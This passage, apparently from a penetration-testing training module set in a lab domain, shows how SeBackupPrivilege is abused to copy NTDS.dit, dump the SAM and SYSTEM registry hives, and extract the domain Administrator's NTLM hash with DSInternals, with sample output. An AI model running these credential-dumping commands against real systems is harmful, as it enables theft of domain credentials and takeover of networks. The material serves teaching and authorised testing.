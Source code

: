 
### Copying NTDS.dit Locally

Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.
```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

### Extracting Credentials from NTDS.dit

With the NTDS.dit extracted, we can use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials. Let's obtain the NTLM hash for just the `administrator` account for the domain using `DSInternals`.
```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
```